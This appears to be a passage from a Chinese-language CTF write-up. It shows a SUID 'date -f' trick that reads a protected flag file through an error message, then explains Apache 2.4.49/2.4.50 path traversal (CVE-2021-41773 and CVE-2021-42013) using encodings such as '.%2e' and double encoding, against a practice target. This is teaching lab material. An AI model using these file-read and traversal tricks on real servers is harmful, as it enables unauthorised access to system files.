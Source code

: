 ```shell
www-data@out:/$ find / -perm -u=s -type f 2>/dev/null
/bin/date
/bin/mount
/bin/su
/bin/umount
```

`date` 具有 `-file` 选项，考虑劫持 `date`

```shell
www-data@out:/$ date -f /ffll444aaggg
date: invalid date 'flag{4a7e06cd-29ab-491c-a1ff-478427e3b92a}' 
```

获得 flag.

```plain
flag{4a7e06cd-29ab-491c-a1ff-478427e3b92a}
```

### Unsafe Apache

靶机地址为 `node4.buuoj.cn:27256`，访问靶机，内容仅仅是

```html
<html><body><h1>It works!</h1></body></html>
```

没有什么可以传参或上传的地方。

查看响应标头

```http
Accept-Ranges: bytes
Connection: keep-alive
Date: Fri, 21 Oct 2022 15:12:37 GMT
Etag: "2d-432a5e4a73a80"
Keep-Alive: timeout=4
Last-Modified: Mon, 11 Jun 2007 18:53:14 GMT
Proxy-Connection: keep-alive
Server: Apache/2.4.50 (Unix)
```

发现 Web 服务器为 Apache，版本为 2.4.50（使用 Wappalyzer 可快速得知该信息）。

Apache 2.4.49 和 2.4.50 版本存在路径穿越和远程代码执行漏洞，即可以通过特定手段访问类似 `http(s)://ip:port/dir/../../../etc/passwd` 的地址读取到 Web 服务根目录以外的文件（`dir` 必须存在且可访问）。

#### CVE-2021-41773

Apache 2.4.49 使用的 `ap_normalize_path` 函数解析路径时会对路径进行 URL 解码，然后过滤掉 `../` 等路径穿越符。

但是该函数对路径穿越符的过滤是通过检测解析后的点号后面是否存在 `.`，因此 `%2e.` 会被过滤而 `.%2e` 和 `%2e%2e` 不会（估计作者当时是考虑文件后缀名忽略了 `..` 的情况）

#### CVE-2021-42013

Apache 2.4.50 的修复并不彻底，虽然过滤了 `.%2e` `%2e%2e` 但是…… 二次编码仍然可以绕过。
